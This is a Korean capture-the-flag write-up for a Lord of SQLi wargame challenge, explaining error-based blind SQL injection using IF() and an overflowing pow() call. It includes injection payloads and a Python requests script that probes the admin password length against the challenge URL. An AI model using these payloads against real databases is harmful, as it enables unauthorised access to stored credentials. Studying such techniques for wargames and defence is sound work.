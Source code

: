 ## 풀이
21번 문제는 이전 문제들과 다르게 화면에 출력되는 값이 없습니다. 즉 서버로 인젝션을 시도해도 그 결과값이 어떻게 처리되었는지를 모르기 때문에 기존의 방법과는 다릅니다.

이러한 경우에 가장 많이 사용하는 방법이 Time Based Sql injection인데 대표적인 함수 sleep과 benchmark 두가지가 필터링되어 있습니다. 따라서 다른 방법을 찾아야 합니다.

눈에 띄는 것은 이번 문제에서는 Error를 출력을 해줍니다.

```sql
if(mysqli_error($db)) exit(mysqli_error($db));
```

이를 이용하면 blind sql injection을 수행할 수 있습니다.
즉, 내가 찾고자 하는 조건이 참이면 - > 에러가 안나게 하고, 거짓이면 - > 에러를 유발하여 참 거짓을 판단할 수 있기 때문에 Blind SQL Injection을 시도할 수 있습니다.

위의 개념을 적용하기 위해서는 조건에 따라서 프로그램의 흐름(Flow)가 달라지도록 하는 함수나 연산자가 필요합니다

mysql 함수 문서를 보니 control flow 를 하는 함수는 다음과 같이 크게 2가지로 Case, If문이 있습니다.

![image](https://user-images.githubusercontent.com/33647663/158190060-e4e1c89a-9c66-4e2a-a497-bdf70a1e9284.png)

이번 문제는 두 가지 조건이 다 필터링이 되어 있지 않으므로 두 조건을 이용해서 문제를 풀어보겠습니다.

### IF
**if 구문 사용 예제**
```sql
IF(expr1,expr2,expr3)

# 만약 expr1이 참이면, expr2를 실행하고, 거짓이면 expr3을 실행한다.

IF(1=1,'true','false') # 'true' 출력
IF(1=2,'true','false') # 'false' 출력
```

참인 경우에는 정상, 거짓인 경우에는 에러를 일으켜야 하므로 우선 에러를 일으키는 구문이 필요합니다. 에러를 일으키는 방법은 정말 다양하지만 저는 쉽게 pow(12341234,12341234)이렇게 작성해서 허용가능한 연산 범위를 초과시켜서 에러를 발생시켜 보겠습니다.

성공적으로 오류가 발생합니다.

![image](https://user-images.githubusercontent.com/33647663/158192370-509d9c2a-e5f9-43eb-bc07-dcbe63dd83b0.png)


이제 다음과 같이 blind sql injection을 수행하면 됩니다.

```python
for i in range(pw_length):
  for j in string.printable:
    pw="' or id='admin' and if(ascii(substr(pw,{},1))={},1,pow(12341234,12341234))#".format(i,ord(j))
```
이렇게 하면 주어진 조건이 참이라면 true가 출력되어 오류가 발생하지 않을 것이고, 조건이 거짓이라면 pow(12341234,12341234)가 실행되어 오류가 발생하게 됩니다.

if 조건을 이용한 blind sql injection 전체 소스코드입니다.

```python
import requests

url= "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
params={'pw':None}
cookies = {'PHPSESSID':'1t87momi7f10m7tl6kkv6t0lob'}

for i in range(30,35):
    payload = "' or id='admin' and if(length(pw)={},1,pow(12341234,12341234))#".format(i)
    params['pw']=payload
    print(payload)
    response = requests.get(url,params=params,cookies=cookies)
    if("DOUBLE value" not in response.text):
        print("find the pw_length",i)
```